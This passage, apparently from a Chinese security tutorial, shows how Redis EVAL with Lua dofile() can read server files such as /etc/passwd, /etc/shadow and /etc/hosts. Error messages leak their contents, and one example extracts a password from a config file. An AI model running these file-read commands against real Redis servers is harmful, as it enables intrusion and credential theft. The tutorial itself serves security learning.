```
EVAL “ return dofile('/etc/passwd')” 0
-ERR Error running script (call to f_afdc51b5f9e34eced5fae459fc1d856af181aaf1): /etc/passwd:1: function arguments expected near ':' 

EVAL “return dofile('/etc/shadow')” 0
-ERR Error running script (call to f_9882e931901da86df9ae164705931dde018552cb): cannot open /etc/shadow: Permission denied

EVAL “return dofile('/var/www/') ” 0
-ERR Error running script (call to f_8313d384df3ee98ed965706f61fc28dcffe81f23): cannot read /var/www/: Is a directory

EVAL “return dofile('/var/www/tmp_upload/') ”0
-ERR Error running script (call to f_7acae0314580c07e65af001d53ccab85b9ad73b1): cannot open /var/www/tmp_upload/: No such file or directory

EVAL “return dofile('/home/ubuntu/.bashrc')” 0
-ERR Error running script (call to f_274aea5728cae2627f7aac34e466835e7ec570d2): /home/ubuntu/.bashrc:2: unexpected symbol near '#' 
```

如果 Lua 脚本有语法错误或者尝试设置全局变量时，会产生报错信息，可以获得一些我们想要的信息

```
EVAL “return dofile('/etc/issue')” 0
-ERR Error running script (call to f_8a4872e08ffe0c2c5eda1751de819afe587ef07a): /etc/issue:1: malformed number near '12.04.4'

EVAL “return dofile('/etc/lsb-release')” 0
-ERR Error running script (call to f_d486d29ccf27cca592a28676eba9fa49c0a02f08): /etc/lsb-release:1: Script attempted to access unexisting global variable 'Ubuntu'

EVAL “return dofile('/etc/hosts')” 0
-ERR Error running script (call to f_1c25ec3da3cade16a36d3873a44663df284f4f57): /etc/hosts:1: malformed number near '127.0.0.1' 
```

还有一种情况，但是并不是很常见，就是调用 dofile()这个函数去处理有效的 Lua 文件，然后返回提前定义好的值，假设这里有一个文件/var/data/app/db.conf

```
db = {
   login  = 'john.doe',
   passwd = 'Uber31337',
} 
```

通过 Lua 脚本得到 passwd 的值

```
EVAL dofile('/var/data/app/db.conf');return(db.passwd); 0 
+OK Uber31337 
```

这个也可以获取 Unix 标准文件的一些信息：
